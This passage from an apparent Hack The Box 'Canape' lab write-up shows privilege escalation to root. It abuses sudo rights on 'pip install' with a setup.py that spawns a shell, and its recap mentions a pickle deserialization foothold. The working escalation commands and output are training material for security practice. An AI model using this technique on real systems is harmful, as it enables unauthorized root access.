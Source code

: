 ![htb-canape-user-txt](images/HTB-canape/htb-canape-user-txt.png)

## root.txt
Checking `homer`'s `sudo` privileges we can run `pip` as `root`
```bash
homer@canape:~$ sudo -l
[sudo] password for homer: 
Matching Defaults entries for homer on canape:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```
### GTFO Bin
`pip` has a [GTFObin](https://gtfobins.github.io/gtfobins/pip/#sudo){:target="_blank"}{:rel="noopener noreferrer"} entry when used with `sudo`, so we can immediately trigger a `root` shell and grab the `root.txt` flag!
```bash
homer@canape:~$ TF=$(mktemp -d)
homer@canape:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
homer@canape:~$ sudo pip install $TF
The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
Processing /tmp/tmp.wvmB8pU3f6
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
```

![htb-canape-root-txt](images/HTB-canape/htb-canape-root-txt.png)
## Recap
Through our port scan and by brute forcing we find a `git` subdomain where we can **download the source code** of the website. Inspecting the `/check` and `/submit` source, we're able to upload a **malicious pickle file** that will **execute arbitrary code when deserialized**. Writing a deserialization exploit script gives us a foothold onto the server!
